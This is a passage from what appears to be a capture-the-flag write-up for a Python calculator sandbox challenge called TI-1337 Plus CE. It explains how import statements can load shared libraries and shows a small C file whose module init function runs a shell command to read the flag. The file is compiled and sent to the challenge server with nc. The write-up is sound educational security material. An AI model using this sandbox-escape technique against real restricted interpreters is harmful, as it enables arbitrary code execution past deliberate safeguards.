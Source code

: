 We can't load, store, or delete variable names that begin with an `_`. Lots of
special stuff in python (like `__builtins__`) starts with an underscore, so
this prevents potential non-calculator trickery.

Now let's look at the opcodes we *are* allowed to use by scrolling through the
[Python docs](https://docs.python.org/3/library/dis.html). I won't list them
all out, but the notable ones are operations on variables (load, store,
delete), math operations (add, divide, multiply, bitwise ops, etc.),
comparison operators (`!=`, `<`, etc.), printing in the Python REPL, and
import statements.

Import statements definitely stick out as dangerous. And with calculator
sessions, we can write to arbitrary filenames to import from! Any self-
respecting CPython nerd knows that an import statement can refer to 3 types of
files: Python source code (`.py`), Python bytecode (`.pyc`), and shared
libraries (`.pyd`, `.so`). <small>I did not know an import statement could
refer to a `.so` in your current directory before this weekend.</small> So a
solver has two options: write a shared object file (which executes machine
code) to read the flag and import it, or make a pyc file that somehow bypasses
the opcode filtering to read the flag and import it.

Note: There's a lot of other analysis you could do and dead ends you'd
probably hit when coming at it blind. I am presenting a highly romanticized
solving experience.

Writing a simple `pwn.so` file seems like significantly less work, so let's
give it a shot.

```  
[kmh@kmh ti1337]$ cat pwn.c  
void PyInit_pwn() {  
	system("cat /flag.*.txt");  
	exit(0);  
}  
[kmh@kmh ti1337]$ gcc pwn.c -shared -o pwn.so  
[kmh@kmh ti1337]$ python3 -c "import pwn"  
cat: '/flag.*.txt': No such file or directory  
```

Looking good!

```  
[kmh@kmh ti1337]$ (cat - && cat pwn.so && cat -) | nc dicec.tf 31337  
Welcome to the TI-1337 Plus CE!  
Enter your username: kmh13377894219885  
1. Start new session  
2. Restore session  
What would you like to do? 1  
Session name: pwn  
You can use variables and math operations. Results of expressions will be
outputted.  
Enter your calculations:  
> > >  
>

[kmh@kmh ti1337]$  
```
